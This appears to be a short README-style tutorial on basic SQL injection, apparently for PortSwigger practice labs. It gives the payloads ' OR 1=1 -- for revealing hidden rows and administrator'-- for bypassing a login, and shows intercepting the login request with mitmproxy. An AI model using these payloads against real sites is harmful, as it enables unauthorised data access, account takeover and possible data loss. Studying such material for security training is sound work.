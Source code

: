 # Simple examples

## SQLi that show hidden data

Append `' -- ` or `' OR 1=1 -- ` to the url to show what the website is hiding from you

<a href="https://asciinema.org/a/ZZcn5kbcJqUOh5uFEs9v0EHPU" target="_blank"><img src="https://asciinema.org/a/ZZcn5kbcJqUOh5uFEs9v0EHPU.svg" /></a>

The goal here is to generate SQL statement like this one:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

_Portswigger_ warns about using this type of SQLi - 

> Take care when injecting the condition OR 1=1 into a SQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an UPDATE or DELETE statement, for example, this can result in an accidental loss of data.

## SQLi that uses login form

We want to get into application as an `administrator` user. To accomplish that
we need to execute this SQL query.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

<a href="https://asciinema.org/a/uLlC06h13BsD3Tp0owMxFO2I2" target="_blank"><img src="https://asciinema.org/a/uLlC06h13BsD3Tp0owMxFO2I2.svg" /></a>

To do this we input in login form

```sql
administrator'--
```

and some password (it's irrelevant, but might be neccessairly).

For this to work we use `mitmproxy` and intercept `login` flow, where we alter
the input data and resume it by pressing `a` (I needed to press it twice).

For this example it might even work using just the browser.